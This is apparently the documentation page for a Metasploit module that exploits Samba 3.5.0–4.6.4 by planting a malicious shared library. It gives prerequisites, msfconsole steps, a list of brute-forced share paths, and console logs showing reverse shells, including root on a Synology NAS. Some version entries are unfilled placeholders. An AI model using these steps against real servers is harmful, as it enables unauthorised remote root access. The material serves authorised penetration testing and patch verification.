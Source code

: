 ## Vulnerable Application

This module exploits Samba from versions 3.5.0-4.4.14, 4.5.10, and 4.6.4 by loading a malicious shared library.
Samba's download archives are [here](https://download.samba.org/pub/samba/stable/).  There are some requirements
for this exploit to be successful:

1. Valid credentials
2. Writeable folder in an accessible share
3. Server-side path of the writeable folder

However, in some cases anonymous access with common filesystem locations can be used to automate exploitation.

Verified on:

1. Synology DS412+ DSM 6.1.1-15101 Update 2 (Samba 4.4.9)
2. Synology DS412+ DSM 6.1.1-15101 Update 3 (Samba 4.4.9)
3. Synology DS1512+ DSM 6.1.1-15101 Update 2 (Samba 4.4.9)
4. Synology DS1512+ DSM 6.1.1-15101 Update 3 (Samba 4.4.9)
5. Ubuntu 16.04 (**HDM PLEASE PUT THE Samba version here**)
6. Synology **HDM PLEASE PUT THE DSM VERSION HERE** (**HDM PLEASE PUT THE Samba version here**)
7. Ubuntu 15.04 (Samba 4.1.13)

Currently not working against:

1. QNAP Nas Samba 4.4.9 on armv71
2. WD NAS armv71 **@wwebb-r7 PLEASE PUT Samba VERSION HERE**

## Verification Steps

1. Start msfconsole
2. Do: ```use exploit/linux/samba/is_known_pipename```
3. Do: ```set rhost [ip]```
4. Do: ```set target [target #]```
5. Do: ```exploit```

## Options

  **SMB_SHARE_NAME**
  
  The name of the SMB share containing a writeable directory.  Shares are automatically scanned for, and if this
  variable is non-blank, it will be preferred.

  **SMB_SHARE_BASE**
  
  The remote filesystem path correlating with the SMB share name.  This value is preferred, but other values are
  brute forced including:

1. /volume1
2. /volume2
3. /volume3
4. /shared
5. /mnt
6. /mnt/usb
7. /media
8. /mnt/media
9. /var/samba
10. /tmp/home/home/shared

  **SMB_FOLDER**
  
  The directory to use within the writeable SMB share.  Writable directories are automatically scanned for, and if this
  variable is non-blank, it will be preferred.

## Scenarios

### Synology DS412+ w/ INTEL Atom D2700 on DSM 6.1.1-15101 Update 2

```
msf exploit(is_known_pipename) > exploit

[*] Started reverse TCP handler on 1.2.3.117:4444 
[*] 1.2.3.119:445 - Using location \\1.2.3.119\ESX\ for the path
[*] 1.2.3.119:445 - Payload is stored in //1.2.3.119/ESX/ as eePUbtdw.so
[*] 1.2.3.119:445 - Trying location /volume1/eePUbtdw.so...
[-] 1.2.3.119:445 - Probe: /volume1/eePUbtdw.so: The server responded with error: STATUS_OBJECT_NAME_NOT_FOUND (Command=162 WordCount=0)
[*] 1.2.3.119:445 - Trying location /volume1/ESX/eePUbtdw.so...
[*] Command shell session 1 opened (1.2.3.117:4444 -> 1.2.3.119:34366) at 2017-05-24 21:12:07 -0400

id
uid=0(root) gid=0(root) groups=0(root),100(users)
uname -a
Linux synologyNAS 3.10.102 #15101 SMP Fri May 5 12:01:38 CST 2017 x86_64 GNU/Linux synology_cedarview_412+
```

### Ubuntu 16.04

```
msf exploit(is_known_pipename) > exploit 

[*] Started reverse TCP handler on 192.168.0.3:4444 
[*] 192.168.0.3:445 - Using location \\192.168.0.3\yarp\h for the path
[*] 192.168.0.3:445 - Payload is stored in //192.168.0.3/yarp/h as GTithXJz.so
[*] 192.168.0.3:445 - Trying location /tmp/yarp/h/GTithXJz.so...
[*] Command shell session 6 opened (192.168.0.3:4444 -> 192.168.0.3:45076) at 2017-05-24 19:41:40 -0500

id
uid=65534(nobody) gid=0(root) groups=0(root),65534(nogroup)
```
